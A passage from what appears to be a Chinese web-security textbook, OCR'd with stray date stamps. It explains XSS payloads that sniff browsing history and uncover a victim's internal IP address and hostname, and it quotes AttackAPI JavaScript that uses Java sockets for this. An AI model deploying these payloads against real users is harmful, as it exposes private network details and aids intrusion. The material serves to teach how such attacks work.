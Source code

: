 ```
 /* add the link to the not visited list */
 var item = document.createElement('li');
 item.appendChild(link);
 document.getElementById('notvisited').appendChild(item);

 } // end visited color check if

} // end URL loop
// -->
</script>


```
但是Firefox在2010年3月底决定修补这个问题，因此，未来这种信息泄露的问题可能在Mozilla浏览器中不会再继续存在了。

 2016-04-06

获取用户的真实IP地址
通过XSS Payload还有办法获取一些客户端的本地IP地址。
很多时候，用户电脑使用了代理服务器，或者在局域网中隐藏在NAT后面。网站看到的客户端IP地址，是内网的出口IP地址，而并非用户电脑真实的本地IP地址。如何才能知道用户的本地IP地址呢？
JavaScript本身并没有提供获取本地IP地址的能力，有没有其他办法？一般来说，XSS攻击需要借助第三方软件来完成。比如，客户端安装了Java环境（JRE），那么XSS就可以通过调用Java Applet的接口获取客户端的本地IP地址。
在XSS攻击框架“Attack API”中，就有一个获取本地IP地址的API：

```
/**
* @cat DOM
* @name AttackAPI.dom.getInternalIP
* @desc get internal IP address
* @return {String} IP address
   */
  AttackAPI.dom.getInternalIP = function () {
       try {
               var sock = new java.net.Socket();

               sock.bind(new java.net.InetSocketAddress('0.0.0.0', 0));
               sock.connect(new java.net.InetSocketAddress(document.domain,
  (!document.location.port)?80:document.location.port));

               return sock.getLocalAddress().getHostAddress();
       } catch (e) {}

       return '127.0.0.1';
  };

   2016-04-06

  此外，还有两个利用Java获取本地网络信息的API：/**
* @cat DOM
* @name AttackAPI.dom.getInternalHostname
* @desc get internal hostname
* @return {String} hostname
   */
  AttackAPI.dom.getInternalHostname = function () {
       try {
               var sock = new java.net.Socket();

               sock.bind(new java.net.InetSocketAddress('0.0.0.0', 0));
               sock.connect(new java.net.InetSocketAddress(document.domain,
  (!document.location.port)?80:document.location.port));

               return sock.getLocalAddress().getHostName();
       } catch (e) {}
       return 'localhost';
```
